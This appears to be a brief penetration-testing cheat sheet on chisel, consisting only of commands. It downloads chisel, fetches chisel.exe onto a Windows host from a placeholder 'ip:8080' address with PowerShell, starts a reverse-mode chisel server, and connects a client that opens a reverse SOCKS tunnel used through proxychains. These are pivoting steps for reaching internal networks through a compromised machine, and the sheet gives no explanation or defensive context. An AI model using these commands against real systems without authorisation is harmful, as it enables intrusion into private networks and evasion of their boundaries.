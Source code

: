 chisel
```
wget https://github.com/jpillora/chisel/releases/download/v1.9.1/chisel_1.9.1_windows_amd64.gz
```

```
iwr http://ip:8080/chisel.exe -outfile chisel.exe
```

```
chisel server -p 9999 --reverse
```

```
./chisel.exe client ip:9999 R:9000:socks
```

```
sudo vim /etc/proxychains.conf

socks5 127.0.0.1 9000
```
